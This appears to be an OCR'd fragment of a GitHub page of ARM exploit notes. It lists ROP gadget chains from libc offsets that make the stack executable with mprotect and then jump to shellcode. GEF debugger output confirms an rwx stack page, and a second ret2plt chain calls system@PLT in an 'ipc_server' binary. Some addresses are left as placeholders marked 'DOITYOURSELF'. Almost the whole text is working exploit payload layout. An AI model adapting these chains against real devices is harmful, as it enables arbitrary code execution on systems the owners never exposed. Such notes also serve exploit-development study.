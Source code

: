 ~~~
(0x44444444)

(LIBC_BASE + 0x0002063d)#libc THUMB 0x0002063c (0x0002063d): pop {r3, pc};
(LIBC_BASE + 0x02020202)#libc THUMB 0x0001c6b4 (0x0001c6b5): pop {r3, r5, pc}             <--- #DOITYOURSELF
(LIBC_BASE + 0x00045170)#libc 0x00045170: add r0, sp, #4; blx r3;    # r0 = $sp+4          ---
(LIBC_BASE + 0x00012134)#libc #align stack 0x00012134: and r0, r0, r1; bx lr;  #THIS TO R3 via redirected #DOITYOURSELF from 45170
(0x55555555)
(LIBC_BASE + 0x0003c9ac)#libc 0x0003c9ac: pop {r4, lr}; bx r3; #to fix lr
(0x44444444)
(LIBC_BASE + 0x0005e0cc)#libc 0x0005e0cc: pop {r1, pc};  #NEW LR, reached from 12134
#r1
(0x01010101) #size to mprotect
(LIBC_BASE + 0xe76c) #mprotect
"""
gef➤  xinfo $sp
──────────────────────────────────────────────────────────── xinfo: 0x833d3fac ────────────────────────────────────────────────────────────
Page: 0x833d3000  →  0x843e4000 (size=0x1011000)
Permissions: rwx
Pathname:
Offset (from page): 0xfac
Inode: 0


#buff+= hextobytearray(0x88888888)
#buff+= hextobytearray(0x88888888)
"""
(0x41414141)
(LIBC_BASE + 0x000385c8) #libc 0x000385c8: pop {r4, lr}; bx lr;
(0x41414141)
(LIBC_BASE + 0x00026c71)#libc THUMB 0x00026c70 (0x00026c71): bx sp;
(f_shellcode)


~~~

### 2nd

Gadgets for ret2plt method:

~~~
(0x0003b290)#0x0003b290: pop {r4, r5, r6, r7, pc};
(0x44444444)
(0x55555555)
(0x66666666)
(0x00039c6c)#0x00039c6c: pop {r4, pc};
(0x02020202)#0x0008b588: add r0, sp, #0x4c; blx r7; #DOITYOURSELF
(0x44444444)
(0x02020202)#ipc_server system @PLT #DOITYOURSELF
("45" * 76) #0x4c
(BUFF)
~~~
